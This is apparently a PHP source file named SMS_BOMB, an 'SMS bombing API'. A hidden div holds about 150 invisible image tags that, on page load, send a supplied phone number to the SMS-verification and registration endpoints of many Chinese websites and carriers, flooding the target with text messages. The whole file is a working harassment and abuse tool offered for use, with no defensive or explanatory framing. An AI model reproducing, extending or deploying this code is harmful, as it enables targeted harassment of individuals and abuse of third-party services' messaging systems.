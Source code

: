 SMS_BOMB
========

短信轰炸API

<?php
$tel_no=__PhoneNumber__;
?>

<div style='display:none'>
<img src='http://member.1688.com//member/ajax/send_identity_code_by_mobile.do?callback=jQuery172007067019236274064_1376100939244&mobile=<?php echo $tel_no;?>&area=86&isBizMobile=true' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=1376044348191' alt=''/>
<img src='http://authleqr.sdo.com/lars/send-login-validate-code.jsaonp?callback=jQuery16206594030656120524_1341237419373&userId=<?php echo $tel_no;?>' alt=''/>
<img src='http://member.tiancity.com/handler/GetPhoneRegAuthCodeHandler.ashx?a=135&userid=<?php echo $tel_no;?>' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=1376099658512' alt=''/>
<img src='http://i.360.cn/smsApi/sendsmscode?account=<?php echo $tel_no;?>&condition=2&r=0.8326570473673853&callback=QiUserJsonP1354551431282' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=137606625123' alt=''/>
<img src='http://passport.cnyw.net//ajax.php?action=getverify&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.kunlun.com/?act=ajax.registGetMobileCode&mobile=<?php echo $tel_no;?>&type=regist' alt=''/>
<img src='http://www.vko.cn/sendmobile.html?phone=<?php echo $tel_no;?>&{}&_=1355879411734' alt=''/>
<img src='http://www.66call.com/register.aspx?__EVENTTARGET=&__EVENTARGUMENT=&__LASTFOCUS=&__VIEWSTATE=%2FwEPDwUKLTYzNzEwOTYxOA9kFgJmD2QWDAIFDw8WAh4EVGV4dAULMTU5NTAxMjgwMzZkZAIHDw8WBh8ABQblj6%2FnlKgeCENzc0NsYXNzBQ5yX2NfY19yX2NoZWNrMR4EXyFTQgICZGQCDQ8PZBYCHgV2YWx1ZQUJamlhbmdsaWxpZAIPDw8WBh8ABQbpgJrov4cfAQUOcl9jX2Nfcl9jaGVjazEfAgICZGQCEQ8PZBYCHwMFCWppYW5nbGlsaWQCEw8PFgYfAAUG6YCa6L%2BHHwEFDnJfY19jX3JfY2hlY2sxHwICAmRkGAEFHl9fQ29udHJvbHNSZXF1aXJlUG9zdEJhY2tLZXlfXxYCBQxJbWFnZUJ1dHRvbjEFDEltYWdlQnV0dG9uMoC6NmiwUtO9MaSDo%2BblDqWjloj5&txtact=<?php echo $tel_no;?>&hidfoc=&hidisOk=1&txtpwd=jianglili&txtrepwd=jianglili&txtcode=&ImageButton1.x=59&ImageButton1.y=11' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=<?php echo $tel_no;?>' alt=''/>
<img src='http://register.sdo.com/gaea/SendPhoneMsg.ashx?page=REG&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.easou.com/sms.e?name=%e8%93%9d%e8%93%9d%e5%a4%a9%e7%a9%ba&mobile=<?php echo $tel_no;?>&action=sms&usid=9&' alt=''/>
<img src='http://www.gewara.com/ajax/mobile/register.xhtml?mobile=<?php echo $tel_no;?>&captchaId=&captcha=' alt=''/>
<img src='http://w.sohu.com/t2/tologin.do?mnd=<?php echo $tel_no;?>&qr=1' alt=''/>
<img src='http://www.66call.com/register.aspx?__EVENTTARGET=&__EVENTARGUMENT=&__LASTFOCUS=&__VIEWSTATE=%2FwEPDwUKLTYzNzEwOTYxOA9kFgJmD2QWDAIFDw8WAh4EVGV4dAULMTU5NTAxMjgwMzZkZAIHDw8WBh8ABQblj6%2FnlKgeCENzc0NsYXNzBQ5yX2NfY19yX2NoZWNrMR4EXyFTQgICZGQCDQ8PZBYCHgV2YWx1ZQUJamlhbmdsaWxpZAIPDw8WBh8ABQbpgJrov4cfAQUOcl9jX2Nfcl9jaGVjazEfAgICZGQCEQ8PZBYCHwMFCWppYW5nbGlsaWQCEw8PFgYfAAUG6YCa6L%2BHHwEFDnJfY19jX3JfY2hlY2sxHwICAmRkGAEFHl9fQ29udHJvbHNSZXF1aXJlUG9zdEJhY2tLZXlfXxYCBQxJbWFnZUJ1dHRvbjEFDEltYWdlQnV0dG9uMoC6NmiwUtO9MaSDo%2BblDqWjloj5&txtact=<?php echo $tel_no;?>&hidfoc=&hidisOk=1&txtpwd=zhasini&txtrepwd=zhasini&txtcode=&ImageButton1.x=59&ImageButton1.y=11' alt=''/>
<img src='http://wap.dm.10086.cn/X/o/3455101/447117/mva0?a=/enduser/querySMSValiCodeByWap20.action&templateDir=template&theme=simple&name=querySMSValiCode&id=querySMSValiCode&downId=&operateType=1&isPass=true&user.accountName=<?php echo $tel_no;?>&Submit=%E4%B8%8B%E4%B8%80%E6%AD%A5' alt=''/>
<img src='http://a.10086.cn/pams2/s/s.do?c=204&j=l&lpt=1&mobile=<?php echo $tel_no;?>&p=72' alt=''/>
<img src='http://read.10086.cn/www/firstpage/getValidateCode.action?phone=<?php echo $tel_no;?>&sf=0' alt=''/>
<img src='http://read.10086.cn/www/NiceNameAjax?msisdn=<?php echo $tel_no;?>&e_cm=cmmobile' alt=''/>
<img src='https://cmpay.10086.cn/service/send_chk_no.xhtml?REG_MBL_NO=<?php echo $tel_no;?>&SMS_CD=URM001&typ=Y&r=0.9636801626045905' alt=''/>
<img src='https://feixin.10086.cn/account/RegisterLv3Ajax?stype=m&stext=<?php echo $tel_no;?>' alt=''/>
<img src='http://my.feixin.10086.cn/password/findpasswordvalidate?type=0&account=<?php echo $tel_no;?>' alt=''/>
<img src='http://218.206.191.106/idm/usermgr/usernameCheck?mobilePhone=<?php echo $tel_no;?>' alt=''/>
<img src='http://go.10086.cn/index.do?method=doReg&mobile=<?php echo $tel_no;?>&source=reg' alt=''/>
<img src='http://www.keepc.com/registerForMobileForCode.act?mobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.cmread.com/sso/oauth2/msisdnRegister?e_l=1&amp;f=7718&amp;pg=221&msisdn=<?php echo $tel_no;?>&passwd=1415926' alt=''/>
<img src='https://passport.jd.com/emReg/isMobileEngaged?mobile=<?php echo $tel_no;?>&r=0.08241349037594953' alt=''/>
<img src='http://shoujibao.net/pams2/m/s.do?j=l&c=31879&p=73&mobile=<?php echo $tel_no;?>&password=1415926' alt=''/>
<img src='http://club.service.autohome.com.cn/Ashx/CreateMobileCode.ashx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.huggieshappyclub.com/Handler/Vcode.ashx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.buidq.com/wap/webcallService.aspx?tel=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.uwewe.com/get/IsUser.aspx?phone=<?php echo $tel_no;?>&quhao=86' alt=''/>
<img src='http://www.uwewe.com/get/SendMessage.aspx?phone=<?php echo $tel_no;?>&ccode=86&type=1' alt=''/>
<img src='http://www.66call.com/forgetpwd.aspx?ScriptManager1=UpdatePanel1|ImageButton2&__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwULLTExMjY2ODE5MTgPFgYeCFRpbWVTcGFuBqpmMwD38M%2BIHgRjb2RlBQQ0MjY1HgRhY2N0BQsxNTgzODgwMjA0MmQYAQUeX19Db250cm9sc1JlcXVpcmVQb3N0QmFja0tleV9fFgMFDEltYWdlQnV0dG9uMgUMSW1hZ2VCdXR0b24xBQxJbWFnZUJ1dHRvbjPdI0AXCiz2XIYks0CPZpmkSSEMDg%3D%3D&txtacct=<?php echo $tel_no;?>&txtcode=7426&txtpwd=&txtrepwd=&ImageButton2.x=76&ImageButton2.y=18' alt=''/>
<img src='http://www.wcall.net/ajax/send_captcha.jsp?mobile=86<?php echo $tel_no;?>' alt=''/>
<img src='http://www.uwewe.com/wap/reg.aspx?__VIEWSTATE=%2FwEPDwUKLTg3MDQ4MjcyNGRkTWAEkK5GOtWg8l1At7LuQLJsrtk%3D&__EVENTVALIDATION=%2FwEWBwLf79jTDQL7h7XWDwKd%2B7q4BwLinreAAgLChPzDDQK7q7GGCAKM54rGBiIS9Dt7i1j1h%2BDtH9EcyHIWJVZf&txtacct=<?php echo $tel_no;?>&txtpwd=&txtRepwd=&txtCode=&Button2=%E8%AF%AD%E9%9F%B3%E8%8E%B7%E5%8F%96%E9%AA%8C%E8%AF%81%E7%A0%81' alt=''/><img src='http://www.gewara.com/ajax/mobile/register.xhtml?mobile=<?php echo $tel_no;?>&captchaId=&captcha=' alt=''/>
<img src='http://www.gewara.com/checkMember.xhtml?tag=mobile&itemvalue=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.dianping.com/ajax/json/account/reg/mobile/send?m=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.ushi.com/openRegU!checkNumber.jhtml?basicProfile.mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.efala.net/newfindpwbysms.flow?byname=<?php echo $tel_no;?>' alt=''/>
<img src='http://zj.189.cn/zjpr/member/authentication/sendValidatePhone.html?phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://weibo.com/signup/v5/formcheck?type=mobile&value=<?php echo $tel_no;?>&__rnd=1363496469546' alt=''/>
<img src='http://api.open.uc.cn/cas/register/mobi/resendVCode?uc_param_str=einisivelafrpf&client_id=20033&from=cas&mobi=<?php echo $tel_no;?>' alt=''/>
<img src='http://ptlogin.4399.com/ptlogin/sendRegPhoneCode.do?phone=<?php echo $tel_no;?>&appId=www_home&v=1&v=1' alt=''/>
<img src='http://i.youku.com/u/bindMobile?__rt=1&__ro=&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='https://safe.renren.com/actions/changesafemobile/sendmobilecaptcha?ajax-type=json&token=1ZhR7iv65SgaNXliuA7mujgTO3s3k1CL&mobile=<?php echo $tel_no;?>&requestToken=496404876&_rtk=e95787e6' alt=''/>
<img src='http://club.service.autohome.com.cn/Ashx/CreateMobileCode.ashx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://service.zol.com.cn/user/ajax/sendMsgCode.php?phone=<?php echo $tel_no;?>' alt=''/>
<img src='https://login.vancl.com/login/BeginRegister.ashx?action=sendmobilecode&key=<?php echo $tel_no;?>&validatecode=&_=1363498730859' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=check&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=resend&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.cntv.cn/mobileRegister.do?msisdn=<?php echo $tel_no;?>&verfiCodeType=1&method=getRequestVerifiCode' alt=''/>
<img src='http://register.zhenai.com/register/validateMobile.jsps?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://reg.jiayuan.com/libs/xajax/reguser.server.php?processSendOrUpdateMessage&xajax=processSendOrUpdateMessage&xajaxargs%5B%5D=%3Cxjxquery%3E%3Cq%3Emobile%3Dd$%3C%2Fq%3E%3C%2Fxjxquery%3E&xajaxargs%5B%5D=mobile&xajaxr=1363500615734' alt=''/>
<img src='https://passport.jd.com/emReg/sendMobileCode?mobile=<?php echo $tel_no;?>&r=0.9010949897739119' alt=''/>
<img src='https://member.suning.com/emall/SNCellPhoneRegisterCmd?actionType=reSendValCode&logonId=<?php echo $tel_no;?>&URL=SNUserRegisterComfirmView&_=1363500974671' alt=''/>
<img src='http://account.iqiyi.com/security/secret/mobile/adm.action?time=1363501090218&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.skywldh.com/registerForMobileForCode.act?mobileNo=<?php echo $tel_no;?>&smSecurityCode=' alt=''/>
<img src='http://wap.skywldh.com/index.php?register&flag=flag&phone=<?php echo $tel_no;?>&mss=on' alt=''/>
<img src='http://zg51.net/web/customer/forgetPwd_up.asp?customermobile=<?php echo $tel_no;?>&verify=01f735f97f1af959&checkcodeflag=1' alt=''/>
<img src='http://www.qqvoice.com/free/getExpCode.do?_isAjaxRequest=true&phonemail=<?php echo $tel_no;?>&type=1&randvalue=' alt=''/>
<img src='http://www.feiin.com/findAccountInfoByAccount.act?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.feiin.cn/index.php?register?phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.feiin.cn/bindMobileCode.act?account=<?php echo $tel_no;?>&quhao=0086' alt=''/>
<img src='http://www.139talk.com/user/regnum.html?phone=<?php echo $tel_no;?>&type=1&key=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.139talk.com/invite/invitesms.html?phone=<?php echo $tel_no;?>&key=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.139talk.com/invite/regnum.html?phone=<?php echo $tel_no;?>&type=1&key=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.139talk.com/invite/register.html?p=cGhvbmV8MTU4Mzg4MDIwNDJ8Y2hrY29kZXw4OTczfGRhdGV8MjAxMy0wMy0xNw==' alt=''/>
<img src='http://www.139talk.com/download/smsdownload.html?popPhone=<?php echo $tel_no;?>&phoneType=Iphone&popKey=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.159talk.com/user/regnum.html?phone=<?php echo $tel_no;?>&type=1&key=h5u9albk8oveqm17rfo6kvo226' alt=''/>
<img src='http://my.tv.sohu.com/user/reg/getmstatus.do?passport=<?php echo $tel_no;?>' alt=''/>
<img src='http://sso.letv.com/user/mobileRegCode/mobile/<?php echo $tel_no;?>/mobilecodeletvid/k961601363512388' alt=''/>
<img src='http://register.sdo.com/gaea/SendPhoneMsg.ashx?page=REG&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://download.feixin.10086.cn/download/downloadFLToMobile.action?id=50&no=<?php echo $tel_no;?>&isCheckCode=1' alt=''/>
<img src='http://my.feixin.10086.cn/password/sendfindpasswordsms?MobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://f.10086.cn/im5/register/checkMobile.action?mobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://zc.qq.com/cgi-bin/bd/send_sms?acc=<?php echo $tel_no;?>&bkn=1656136920&v=0.6187287989762199' alt=''/>
<img src='http://weibo.com/signup/v5/formcheck?type=sendsms&value=<?php echo $tel_no;?>&__rnd=1364610012046http://hm.baidu.com/hm.gif?cc=1&ck=1&cl=16-bit&ds=1280x800&ep=%E8%8E%B7%E5%8F%96%E9%AA%8C%E8%AF%81%E7%A0%81*%E7%82%B9%E5%87%BB&et=4&fl=11.6&ja=1&ln=zh-cn&lo=0&nv=1&rnd=2125197633&si=4cd143d67831005438c65f586314c582&st=3&su=http://club.autohome.com.cn%2Fbbs%2Fthread-c-148-2031217-1.html&v=1.0.40&lv=1&api=8_0&tt=%E7%94%A8%E6%88%B7%E6%B3%A8%E5%86%8C_%E6%B1%BD%E8%BD%A6%E4%B9%8B%E5%AE%B6' alt=''/>
<img src='https://www.qianwang365.com/uc/ajax/obtainSecurityCode4Regist.html?username=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.efala.net/getcode.flow?phone=<?php echo $tel_no;?>&cardno=&code=&' alt=''/>
<img src='http://passport.wanmei.com/NoteAction.do?method=sendRegCode&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://biz.b2b.cn/member/SendCode.ashx?temptime=1365067755281&m=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.kunlun.com/index.php?act=ajax.checkUsername&user_name=<?php echo $tel_no;?>' alt=''/>
<img src='http://reg.email.163.com/unireg/call.do?cmd=added.mobileverify.sendAcode&mobile=<?php echo $tel_no;?>&uid=<?php echo $tel_no;?>%40163.com&mark=mobile_start' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=resend&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://user.syyx.com/ajax/users/checkusername.aspx?u=<?php echo $tel_no;?>&r=0.42031912299903756' alt=''/>
<img src='http://www.keepc.com/findAccountInfoByAccount.act?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://service.zol.com.cn/user/ajax/sendMsgCode.php?phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://gwpassport2.woniu.com/v2/checkusername?jsoncallback=jQuery172013263149083391296_1365068016801&username=<?php echo $tel_no;?>&_=1365068030671' alt=''/>
<img src='http://passport.upaidui.com/mobiles/send_validation_code?mobile_number=<?php echo $tel_no;?>' alt=''/>
<img src='http://user.51wan.com/reg_index_check_0.html?type=username&is=mobile&username=<?php echo $tel_no;?>' alt=''/>
<img src='http://interface.game.renren.com/ActivityCenter/?catalog=plugins&gameid=all&aname=reg&method=reg.subUserInfo&mobile=<?php echo $tel_no;?>&callback=jQuery17204292543791520399_1365068164751&_=1365068180406' alt=''/>
<img src='http://my.xoyo.com/register/NewIsExist/?uid=<?php echo $tel_no;?>' alt=''/>
<img src='http://member.tiancity.com/handler/GetPhoneRegAuthCodeHandler.ashx?a=0.016777698590329404&userid=<?php echo $tel_no;?>' alt=''/>
<img src='http://member.changyou.com/register/checkPhoneIsUsed.do?securityPhone=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.game5.com/member/sendRegisterVerifyCode?reg_mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.kongzhong.com/acc.do?m=sendPhoneVcodeFast&callback=jQuery17200752385214847075_1364445730228&phone=<?php echo $tel_no;?>&smsvcode=%E8%BE%93%E5%85%A5%E6%89%8B%E6%9C%BA%E8%8E%B7%E5%8F%96%E7%9A%84%E9%AA%8C%E8%AF%81%E7%A0%81&_=1364445764320' alt=''/>
<img src='http://www.pceggs.com/myaccount/mobile_ajax.aspx?refresh=0&i_mobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.9dapai.com/SMSAuthentication/SMSAuthenticationPage.aspx/btnGenerateCheckCode_Click?(Content)=%7Bcellnum%3A'<?php echo $tel_no;?>'%7D' alt=''/>
<img src='http://www.veryzhun.com/ajax/register.asp?mobile=<?php echo $tel_no;?>&areacode=86' alt=''/>
<img src='http://wap.callda.com/register_2.jsp?phoneNumber=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.200call.com/index.php?action=vphone?uphone=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.12580call.cn/index.php?register&phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://w.yunpan.360.cn/intf.php?method=Sms.issue&qid=177256015&devtype=box&v=1.9.2.1245&devid=5b5b55bfc9f1f3113963b1f1350adc65&devname=&rtick=6969759&sign=aa8d029e8036f3f9d555956388dc4c57&ofmt=xml&pid=home&mobile=<?php echo $tel_no;?>&contype=mdu&token=3708649921.6.95535003.177256015.1366401362' alt=''/>
<img src='http://member.tiancity.com/handler/GetPhoneRegAuthCodeHandler.ashx?a=0.6334787302703851&userid=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=resend&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.17u.cn/Member/RegisterHandler.ashx?action=phone&phone=<?php echo $tel_no;?>&iid=0.6011805873638694' alt=''/>
<img src='http://3g.163.com/t/signup.do?mobile=<?php echo $tel_no;?>&sub=%E8%8E%B7%E5%8F%96%E5%AF%86%E7%A0%81%E7%9F%AD%E4%BF%' alt=''/>
<img src='http://m.mail.163.com/reg.s?regtype=mobile&method=registerMobile&mobile_num=<?php echo $tel_no;?>&password=testtest&password2=testtest&action=%E6%8F%90%E4%BA%A4%E6%B3%A8%E5%86%8C%E4%BF%A1%E6%81%AF=400' alt=''/>
<img src='http://account.jzyx.com/common/send-sms.html?tel=<?php echo $tel_no;?>' alt=''/>
<img src='http://t.sdo.com/home/SendSms?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://txz.sdo.com/common/msgsend/?m=<?php echo $tel_no;?>&t=2&method=SendAPPDownLoadSMSCallback&fromid=weblogin&r=0.9407026621045355' alt=''/>
<img src='https://mcas.sdo.com/authen/checkAccountType.jsonp?callback=checkAccountType_JSONPMethod&inputUserId=<?php echo $tel_no;?>' alt=''/>
<img src='http://authleqr.sdo.com/lars/check-account-types.jsonp?callback=jQuery16202903677772887056_1353757072377&userId=<?php echo $tel_no;?>&_=1353757193062' alt=''/>
<img src='https://reg.95538.cn/userreg/AjaxHandler.ashx?method=getPhoneCode?mobilePhone=<?php echo $tel_no;?>&type=0' alt=''/>
<img src='http://u.baidu.com/?module=default&controller=Reg&action=sendSMS&b1350745948890=1&mobile=<?php echo $tel_no;?>&appid=3&ucname=huisexinxi' alt=''/>
<img src='http://as.baidu.com/a/msg?act=sendtomobile&f=topic_3001_2_0&mobile=<?php echo $tel_no;?>&docid=1439803&ctime=1353852949890' alt=''/>
<img src='http://as.baidu.com/a/msg?act=sendtomobile&f=web_alad_6%40next%40software_1003_6&mobile=<?php echo $tel_no;?>&docid=1346020&ctime=1350747592671' alt=''/>
<img src='http://api.pengyou.com/json.php?mod=mobilebind&act=sendsms&mobile=<?php echo $tel_no;?>&g_tk=null' alt=''/>
<img src='http://www.maiduo.com/handler/Register/Register.ashx?act=check&mobile=<?php echo $tel_no;?>&checkCode=undefined' alt=''/>
<img src='http://www.sinosig.com/auth/regist_resetMsg.action?sso_userName=<?php echo $tel_no;?>&isAjaxSubmit=true' alt=''/>
<img src='http://www.pubyun.com/accounts/signup_vcode/4449056/?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://dealer.autohome.com.cn/Handler/SendMessage.ashx?action=sendcode&mob=<?php echo $tel_no;?>' alt=''/>
<img src='http://yuyue.shdc.org.cn/User/ajaxSendConfirmCode.aspx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://reg.ztgame.com/registe/mobilePhoneRegister?type=isBindPhoneNum&phoneNum=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.baixing.com/ajax/auth/sendCode/?type=resetPassword&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://mail.sina.com.cn/cgi-bin/phonecode.php?phonenumber=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.q.com.cn/register/index/ajaxcheckmobile/?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://yun.baidu.com/account/v1/api/sendacodenormal?dest=<?php echo $tel_no;?>' alt=''/>
<img src='https://reg.passport.the9.com/api/chk_loginname?loginname=<?php echo $tel_no;?>&accounttype=reg_mobile' alt=''/>
<img src='https://login.sina.com.cn/signup/check_user.php?format=json&from=mobile&name=<?php echo $tel_no;?>' alt=''/>
<img src='http://js.ac.10086.cn/jsauth/reg?method=sendVerCode&=<?php echo $tel_no;?>' alt=''/>
<img src='http://my.xoyo.com/register/isExist/0.8101254514227967?uid=<?php echo $tel_no;?>&type=mobile' alt=''/>
<img src='http://member.changyou.com/register/checkPhoneIsUsed.do?securityPhone=<?php echo $tel_no;?>' alt=''/>
<img src='https://reg.91.com/AjaxAction/AC_register.ashx?action=verifyusernameofmobile&txtUserNameOfMobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://211.136.93.21/hfwebbusi/pay/saveOrder.do?mobileId=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.wanmei.com/NoteAction.do?method=sendRegCode?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://authleqr.sdo.com/lars/check-account-types.jsonp?callback=jQuery16203658856788579764_1366925187811&userId=<?php echo $tel_no;?>&_=1366925195670' alt=''/>
<img src='http://www.guahao.com/validcode/json/mobile/<?php echo $tel_no;?>/REG_MOBILE/cebaf071614ac29f9ad6c692b474a46f?_=1366925898545' alt=''/>
<img src='http://chinatelecom.zc.qq.com/cgi-bin/send_sms?phonenum=<?php echo $tel_no;?>&stype=1' alt=''/>
<img src='http://cas.sdo.com/authen/sendPhoneCheckCode.jsonp?callback=sendPhoneCheckCode_JSONPMethod&inputUserId=<?php echo $tel_no;?>&type=3&appId=201&areaId=0&serviceUrl=' alt=''/>
<img src='http://sdo.com&productVersion=v5&frameType=3&locale=zh_CN&version=21&tag=20&authenSource=2&productId=2&_=1366924349498' alt=''/>
<img src='http://www.1732.com/public/ajax.aspx?app=resendcode&bindaccount=<?php echo $tel_no;?>' alt=''/>
<img src='http://sign.kting.cn/register/getphoneverify/phone/<?php echo $tel_no;?>' alt=''/>
<img src='http://m.xs8.cn/user/quick_signup.html?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://bbs.360che.com/ajax1.php?action=ds21&mobilenum=<?php echo $tel_no;?>&inajax=1&ajaxtarget=ts' alt=''/>
<img src='http://pass.ledu.com/reg/mobilecode?type=reg&mobile=<?php echo $tel_no;?>&r=0.7577109599155907' alt=''/>
<img src='http://www.52callme.com/Handler/SendVerifyCodeHandler.ashx?m=<?php echo $tel_no;?>' alt=''/>
<img src='http://sso.letv.com/user/mobileRegCode/mobile/<?php echo $tel_no;?>/mobilecodeletvid/c326961366927138' alt=''/>
<img src='http://www.sinosig.com/auth/regist_refresh.action?sso_userName=<?php echo $tel_no;?>&resetSend=1' alt=''/>
<img src='https://sn.ac.10086.cn/sendMsgRequest?mobileNumber=<?php echo $tel_no;?>' alt=''/>
<img src='https://fj.ac.10086.cn/SMSCodeSend?mobileNum=<?php echo $tel_no;?>&validCode=0000&errorurl=https://fj.ac.10086.cn/4login/errorPage.jsp&name=menhu' alt=''/>
<img src='https://fj.ac.10086.cn/SMSCodeSend?mobileNum=<?php echo $tel_no;?>&validCode=0000&errorurl=http://www.fj.10086.cn:80/service/login/send.jsp' alt=''/>
<img src='https://fj.ac.10086.cn/ssouser/sendMessage.do?mobileno=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.gs.10086.cn/gs_obsh_service/actionDispatcher.do?userMobile=<?php echo $tel_no;?>' alt=''/>
<img src='https://sn.ac.10086.cn/sendMsgRequest?code=%E7%82%B9%E5%87%BB%E8%8E%B7%E5%8F%96%E9%AA%8C%E8%AF%81%E7%A0%81&mobileNumber=<?php echo $tel_no;?>' alt=''/>
<img src='https://js.ac.10086.cn/jsauth/dzqd/pagSendDypass?umobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://gd.10086.cn/ngcrm/hall/SendRandomSms.action?mobile=<?php echo $tel_no;?>&isReRequest=false' alt=''/>
<img src='http://liao.189.cn/ECP-Portals/phoneDown/download.do?phone=<?php echo $tel_no;?>' alt=''/>
<img src='https://ecplive.cn/reg/servlet/ivrInvokeServlet?number=<?php echo $tel_no;?>&flagNum=3' alt=''/>
</div>
